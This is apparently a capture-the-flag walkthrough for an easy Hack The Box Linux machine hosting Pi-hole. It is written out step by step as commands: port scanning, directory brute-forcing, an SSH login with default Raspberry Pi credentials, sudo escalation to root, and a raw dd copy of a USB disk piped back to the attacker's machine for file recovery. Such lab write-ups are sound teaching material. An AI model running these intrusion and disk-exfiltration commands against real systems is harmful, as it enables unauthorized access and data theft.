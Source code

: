 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🛰️ Recon

### 🔍 Full Port Scan (All TCP Ports)
```bash
nmap -p- --min-rate 10000 10.10.10.48
```
> Scans all 65535 TCP ports with high speed. Found ports: 22 [SSH](SSH), 53 [DNS](DNS), 80 (HTTP), 1877 (UPnP), 32400 (Plex), 32469 (UPnP).

### 🔍 Targeted Service & Version Detection
```bash
nmap -p 22,53,80,1877,32400,32469 -sCV 10.10.10.48
```
> Runs default scripts and version detection on open ports.

### 🌐 Directory Brute-Force
```bash
feroxbuster -u http://10.10.10.48
```
> Discovers `/admin`, `/admin/scripts`, `/admin/img`, etc. — confirms it's a Pi-hole admin interface.

---

## 🔓 Shell as `pi` (User)

### 🔐 Attempt Default Raspberry Pi SSH Credentials
```bash
sshpass -p raspberry ssh pi@10.10.10.48
```
> Logs in successfully using default creds: `pi:raspberry`.

### 📄 Capture User Flag
```bash
cat ~/Desktop/user.txt
```

---

## 🧑‍💼 Shell as `root`

### 🔍 Check `sudo` Privileges
```bash
sudo -l
```
> Shows `pi` can run **ALL commands as root** without password.

### 🔁 Elevate to Root
```bash
sudo su -
# OR
sudo -i
```

---

## 🧪 Root Flag Recovery

### 🔍 Inspect Mounted Devices
```bash
mount
# or
lsblk
```
> Identifies `/dev/sdb` mounted as `/media/usbstick`.

### 🔍 Locate Files on USB Stick
```bash
cd /media/usbstick
find . -ls
```
> Sees `damnit.txt` and empty `lost+found`; no `root.txt`.

### 🔍 Search for 32-char Hex Flag (using `grep`)
```bash
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
```

### 🔍 Alternative: Search Printable Strings
```bash
strings /dev/sdb -n 32
```

---

## 📦 Optional: Extract Disk Image for Offline Analysis

### 🧲 Copy USB Disk to Local Machine
```bash
sshpass -p raspberry ssh pi@10.10.10.48 "sudo dd if=/dev/sdb | gzip -1 -" | dd of=usb.gz
```

### 🗜️ Decompress & Analyze
```bash
gunzip usb.gz
file usb     # Confirm it's an ext4 FS
```

### 🧱 Recover Deleted Files (with `extundelete`)
```bash
extundelete usb --restore-all
ls RECOVERED_FILES/
cat RECOVERED_FILES/root.txt
```